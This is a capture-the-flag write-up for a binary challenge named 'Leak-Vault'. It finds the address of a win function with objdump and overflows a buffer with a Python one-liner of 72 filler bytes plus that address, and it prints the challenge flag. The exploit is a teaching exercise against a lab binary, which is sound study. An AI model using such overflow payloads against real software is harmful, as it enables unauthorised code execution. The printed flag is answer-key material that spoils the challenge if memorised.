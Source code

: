 Leak-Vault Writeup

This binary challenge requires executing the win function by leveraging a buffer overflow vulnerability and using the function's address.
Steps to Solve
1. Identify the win Function Address

To locate the address of the win function, I used objdump to disassemble the binary and searched for the win function:
bash
Copy

```
┌──(myenv)─(zwique㉿kali)-[~/Downloads]
└─$ objdump -d leaky_vault | grep win
000000000040084c <win>:
  400874:       540000c1        b.ne    40088c <win+0x40>  // b.any
```
The address of the win function is 0x40084c.
2. Exploit the Buffer Overflow

The binary appears to have a buffer overflow vulnerability. By providing an input longer than the buffer size, we can overwrite the return address on the stack with the address of the win function.

I crafted a payload consisting of:

    72 bytes of filler (to fill the buffer and overwrite the saved return address).

    The address of the win function (0x40084c) in little-endian format.

The payload was generated using Python

```
┌──(zwique㉿kali)-[~/Downloads]
└─$ python3 -c 'print("A" * 72 + "\x4c\x08\x40\x00\x00\x00\x00\x00")' | ./leaky_vault
```

3. Execute the Exploit

When the payload is passed to the binary, it successfully overwrites the return address and executes the win function:
Copy

Enter your input: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
uacCTF{m3m9ry_l2ak_3xpl0it_CS1410}

The flag is: uacCTF{m3m9ry_l2ak_3xpl0it_CS1410}.

Alternative: Using an Exploit Script
```
┌──(zwique㉿kali)-[~/Downloads]
└─$ python3 exp.py
```

Conclusion

This challenge demonstrates a classic buffer overflow exploit, where overwriting the return address with the address of a desired function (win) leads to successful execution. Understanding memory layout and function addresses is key to solving such problems.
